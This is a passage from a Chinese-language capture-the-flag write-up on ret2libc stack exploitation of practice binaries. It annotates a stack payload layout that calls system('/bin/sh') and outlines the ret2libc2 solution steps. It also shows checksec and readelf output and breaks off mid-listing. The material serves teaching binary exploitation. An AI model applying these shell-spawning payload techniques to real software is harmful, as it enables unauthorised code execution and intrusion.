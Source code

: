 - 需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb' 作为虚假的地址，其后参数对应的参数内容

### Payload Analysis

```assembly
; High Address 高地址 ; main函数的栈被payload覆盖之后如下 ;payload.hex()
20870408 ; 0x08048720 binsh_addr "/bin/sh" 字符串所在的地址
62626262 ; 'bbbb'
60840408 ; 执行 ret(pop EIP); EIP被更改为 system_plt 即system函数的地址; 执行完后EBP, ESP指向此处
61616161 ; 'aaaa' ; 在ret前，ESP会被恢复为指向EBP，即"删"掉当前函数使用的栈
...
; Low Address 低地址
```

- `system_plt`是`system`函数的调用地址（实际为PLT表中调用`system`函数的代码片段的地址），即为正常从头调用system函数，而不是从system函数中间的指令开始
- 在`ret(pop EIP)`到`system`之后，`system`开始执行时，EBP指向的是`60840408`，对于`system`函数来说，EBP+4: `62626262`就是`system`的返回地址，EBP+8: `20870408 (0x08048720)`就是`system`的第一个参数。因此完成目标：调用`system("/bin/sh")`

---

# ret2libc2

> file: ret2libc2

- 解题思路：
  1. 覆盖gets的RA跳转至gets，再调用一次gets，读入`/bin/sh`(payload以外的sendline)至bbs段的buf2中
  2. 利用`pop Ereg; ret;`抬栈，使得RA覆盖为`system`
  3. 以buf2为参数，执行`system("/bin/sh")`

## Overview

```bash
$ checksec --file=ret2libc2
RELRO         STACK CANARY    NX         PIE     RPATH    RUNPATH     Symbols     FORTIFY Fortified  Fortifiable  FILE
Partial RELRO No canary found NX enabled No PIE  No RPATH No RUNPATH  84) Symbols   No    0          2            ret2libc2
```

```bash
$ readelf -S ret2libc2
There are 35 section headers, starting at offset 0x1924:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.bu[...] NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 00002c 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481d8 0001d8 0000f0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482c8 0002c8 000096 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804835e 00035e 00001e 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         0804837c 00037c 000030 00   A  6   1  4
  [ 9] .rel.dyn          REL             080483ac 0003ac 000018 08   A  5   0  4
  [10] .rel.plt          REL             080483c4 0003c4 000058 08   A  5  12  4
  [11] .init             PROGBITS        0804841c 00041c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048440 000440 0000c0 04  AX  0   0 16
  [13] .text             PROGBITS        08048500 000500 000242 00  AX  0   0 16
  [14] .fini             PROGBITS        08048744 000744 000014 00  AX  0   0  4
  [15] .rodata           PROGBITS        08048758 000758 000065 00   A  0   0  4
  [16] .eh_frame_hdr     PROGBITS        080487c0 0007c0 000034 00   A  0   0  4
  [17] .eh_frame         PROGBITS        080487f4 0007f4 0000d0 00   A  0   0  4
  [18] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [19] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
```